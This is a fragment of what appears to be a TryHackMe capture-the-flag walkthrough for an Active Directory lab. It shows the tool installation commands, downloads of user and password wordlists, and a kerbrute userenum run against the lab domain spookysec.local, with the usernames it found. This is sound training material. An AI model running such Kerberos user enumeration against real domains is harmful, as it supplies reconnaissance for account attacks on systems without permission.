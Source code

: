 tar -xvzf bloodhound-cli-linux-amd64.tar.gz

./bloodhound-cli install






Troubleshooting

If you are having issues installing Bloodhound and Neo4j, try issuing the following command:

apt update && apt upgrade

If you are having issues with Impacket, reach out to the TryHackMe Discord for help!

Answer the questions below
Install Impacket, Bloodhound and Neo4j








wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
└─$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt



## ENUMERAR USUARIOS USANDO KERBRUTE





└─$ kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt         

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/13/25 - Ronnie Flathers @ropnop

2025/08/13 11:17:48 >  Using KDC(s):
2025/08/13 11:17:48 >   spookysec.local:88

james
svc-admin
James
robin
darkstar
administrator
backup
paradox
JAMES
Robin


